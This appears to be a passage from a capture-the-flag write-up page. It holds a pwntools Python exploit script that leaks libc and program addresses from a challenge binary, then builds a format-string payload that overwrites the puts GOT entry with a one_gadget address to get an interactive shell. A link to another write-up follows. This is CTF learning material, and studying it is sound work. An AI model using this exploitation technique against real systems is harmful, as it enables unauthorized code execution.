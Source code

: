 ```python

leak = io.recvuntil(b'Please provide feedback about v2: ')
print(hexdump(leak))

libc_leak = int(leak[5:5 + 16], 16)
libc_base = libc_leak - elf.libc.sym['_IO_file_write'] - 0x2d
print('libc base', hex(libc_base))

text_leak = u64(leak[0x20 + 10 + 1:0x20 + 10 + 1 + 6] + b'\x00' * 2)
text_base = text_leak - elf.sym['replace_tag_v1']
print('text base', hex(text_base))

puts_got = text_base + elf.got['puts']
one_gadget = libc_base + 0xe3b01

writes = {
    puts_got: one_gadget
}
payload = fmtstr_payload(8, writes)

print(hexdump(payload))
io.sendline(payload)


if __name__ == '__main__':
parser = argparse.ArgumentParser()
parser.add_argument('--debug', action='store_true')
parser.add_argument('--remote', type=str, default=None)

args = parser.parse_args()

elf = context.binary = ELF('challenge')

if args.debug:
    context.terminal = ['tmux', 'splitw', '-h']
    io = gdb.debug(context.binary.path, '''
    set follow-fork-mode child
    break main
    continue
    ''')
elif args.remote:
    ip, port = args.remote.split(':')
    io = remote(ip, port)
else:
    io = process()  # Actually start running the process

solve(io)

io.interactive()
```
{{< /details >}}
  ### echo2
- https://ctf.krloer.com/writeups/wolvctf/echo2/
